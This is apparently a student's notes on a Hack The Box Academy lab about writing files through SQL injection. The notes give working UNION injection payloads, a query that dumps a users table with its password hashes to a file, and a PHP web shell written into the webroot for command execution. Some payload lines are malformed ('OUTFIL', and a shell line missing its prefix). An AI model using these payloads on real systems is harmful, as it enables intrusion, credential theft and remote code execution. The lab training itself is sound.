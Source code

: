 # Writing Files

While it is possible to write to files via injection, modern DBMSes are much more restrictive in which users are able to modify file contents due to the fact that attackers could potentially write a web shell via remote server to execute code and compromise the integrity of the server.

In order to gain access to file writing on a database server, you will need to meet the following conditions:

- The user must have FILE privileges
- secure_file_priv must be disabled globally
- Write access to the indicated location on the back-end

In the case of this module, you know that you already have FILE privileges. Now you will need to determine if the database itself has the privilege.

#### secure_file_priv

The secure_file_priv variable determines where files can be read and written from. 

- If the file has an empty value, you know you have the ability to read any file within the file system.

- If a directory is designated within this file, you can only read from this specified file.

- If the value is NULL, this means that you cannot read or write any file.

MariaDB sets the variable to empty by default, allowing you to modify files if you have FILE privileges.

MySQL uses /var/lib/mysql-files as the default folder. This means that by default, you cannot read or write to files anywhere in the system. 

You can user the following query to find the value of the variable in MySQL:

>SHOW VARIABLES LIKE 'secure_file_priv';

You would need to implement an injection to achieve this in our case. You will need to use the UNION and SELECT statements to achieve this. All the variables you need are stored within INFORMATION_SCHEMA database. The global variables are stored in a table named global_variables which has two columns, variable_name and variable_value.

These two columns must be selected from the INFORMATION_SCHEMA database. It should be noted that there are hundreds of global variables in the default MySQL configurations and you do NOT want to retrieve all of them. The results can be filtered so that only the secure_file_priv variable is shown via the WHERE clause.

Here is the SQL query that would achieve this:

>SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"

Below is the UNION injection that you would need to use. It delivers a payload and adds columns 1 and 4 containing junk entries:

>cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

In our example, this shows that the file value is empty, meaning that files can be read and written to with FILE permissions:

### SELECT INTO OUTFILE

The SELECT INTO OUTFILE statement is used to write data from SELECT queries into files. This is often used to export output into the file we have designated.

Below is an example that would save the output from the 'users' table into the /tmp/credentials file:

>SELECT \* FROM users INTO OUTFILE '/tmp/credentials';

Now you can go back to the back-end server and cat the file to view it's contents:

>cat /tmp/credentials

This will reveal the hash values for the passwords of the admin and newuser accounts.

You can directly SELECT strings into these files which allow us to write arbitrary file content to the back-end server.

You can use the following query to test this:

>SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

Now if you cat the file a second time, you will see the string you submitted:

>cat /tmp/test.txt

Then you can assess the read and write privileges and other information about this file with the following:

>ls -la /tmp/test.txt

This will reveal that the file creation was successful and that it is owned by the MySQL user you are operating under.

### Writing with Injections

You can use the following query to write a text file to the webroot to verify permissions:

>SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'

If you wanted to write to the web shell, you would need to know the base web directory for the web server - also known as the web root. You can find this by using load_file to determine the server configuration. 

In the case of Apache servers, this is stored in /etc/apache2/apache2.conf.

For Nginx, this is located in /etc/nginx/nginx.conf.

IIS configuration is located in %WinDir%\System32\Inetsrv\Config\ApplicationHost.config.

If none of these are working, you can do an online search to seek out additional configuration locations.

Fuzzing can be used to scan locations and attempt file writing to different potential web roots by using Linux and Windows wordlists.

If all else fails, you can attempt to use server error output to try and discover the base web directory.

Here is an example injection that would achieve the above for our module:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4 INTO OUTFIL '/var/www/html/proof.txt'-- -

When this is submitted, no errors are returned and the query has been successfully injected. You can now check the file proof.txt to confirm it's existence. In the output you can see that the numbers 1, 3, and 4 are included because all junk data we submitted was written to the file. If you wanted to remove the numbers in output, you could replace them with a set of double quotes ("").

### Web Shell

Now you can write a PHP web shell to the webroot folder with the following PHP command, which will execute directly to the back-end:

>\<?php system($\_REQUEST\[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -

This will return no errors meaning that we likely were able to write to the file.

You can verify the successful write by examining the /shell.php file and executing commands via the 0 parameter by using the ?0=id snippet from the URL.

This will output the id confirming that we are able to execute code and operate as the www-data user.

### Related:
- [Hack The Box Academy](https://academy.hackthebox.com/ "Hack The Box Academy Home page")
- [HTB Writing Files via Injection](https://academy.hackthebox.com/module/33/section/793 "HTB Writing Files via Injection")